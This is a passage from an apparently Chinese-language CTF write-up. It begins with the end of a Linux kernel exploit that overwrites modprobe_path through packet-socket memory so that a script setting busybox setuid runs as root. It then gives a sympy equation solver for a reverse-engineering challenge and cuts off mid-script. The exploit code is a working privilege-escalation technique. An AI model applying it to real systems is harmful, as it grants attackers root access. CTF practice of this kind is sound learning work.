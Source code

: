```Python
        shmdt(shmaddr);
        
        int block_nr = 0x4;
        
        int packet_fds = packet_socket_setup(PAGE_SIZE, 0x800, block_nr, 0, 1000);
        
        edit(0, 0x212a000);
        
        char *page = mmap(NULL, PAGE_SIZE * block_nr, PROT_READ | PROT_WRITE, MAP_SHARED, packet_fds, 0);
        
        char *modprobe_path = page + PAGE_SIZE * 0x3 + 0xc0;
        
        strcpy(modprobe_path, "/tmp/evil");
        
        munmap(page, PAGE_SIZE * block_nr);
        
        system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
        system("echo '#!/bin/sh\nchmod a+s /bin/busybox' > /tmp/evil");
        system("chmod +x /tmp/evil");
        system("chmod +x /tmp/dummy");
        
        system("/tmp/dummy");
        
}
```

## Reverse

### 中文编程1

拿到题，IDA分析下就能发现是个方程，解一下就好

![img](https://hackforfun.feishu.cn/space/api/box/stream/download/asynccode/?code=MDA1N2VjNzAzNGMwNmUxMjQ0YTA2ZGFkNmVhOGMwN2RfWGZYWk5BRHVreFZWQkZNa3NIUjlQODdHa0dJZExObG1fVG9rZW46WGtsWGJkUTBnb3NVSDR4VHlHa2N1Zng2bkNlXzE3MDM4MzgyMTI6MTcwMzg0MTgxMl9WNA)

计算脚本：

```Python
from sympy import symbols, Eq, solve

flagCheck = symbols('flagCheck1:12')

equations = [
    Eq(flagCheck[0]*52 + flagCheck[1]*93 + flagCheck[2]*15 + flagCheck[3]*72 + flagCheck[4]*61 + flagCheck[5] *
       21 + flagCheck[6]*83 + flagCheck[7]*87 + flagCheck[8]*75 + flagCheck[9]*75 + flagCheck[10]*88,  660747890852),
    Eq(flagCheck[0]*24 + flagCheck[1]*3 + flagCheck[2]*22 + flagCheck[3]*53 + flagCheck[4]*2 + flagCheck[5] *
       88 + flagCheck[6]*30 + flagCheck[7]*38 + flagCheck[8]*2 + flagCheck[9]*64 + flagCheck[10]*60,  290707411378),
    Eq(flagCheck[0]*21 + flagCheck[1]*33 + flagCheck[2]*76 + flagCheck[3]*58 + flagCheck[4]*22 + flagCheck[5] *
       89 + flagCheck[6]*49 + flagCheck[7]*91 + flagCheck[8]*59 + flagCheck[9]*42 + flagCheck[10]*92,  516444638802),
    Eq(flagCheck[0]*60 + flagCheck[1]*80 + flagCheck[2]*15 + flagCheck[3]*62 + flagCheck[4]*62 + flagCheck[5] *
       47 + flagCheck[6]*62 + flagCheck[7]*51 + flagCheck[8]*55 + flagCheck[9]*64 + flagCheck[10]*3,   666561550517),
    Eq(flagCheck[0]*51 + flagCheck[1]*7 + flagCheck[2]*21 + flagCheck[3]*73 + flagCheck[4]*39 + flagCheck[5] *
       18 + flagCheck[6]*4 + flagCheck[7]*89 + flagCheck[8]*60 + flagCheck[9]*14 + flagCheck[10]*9,   536365570625),
```
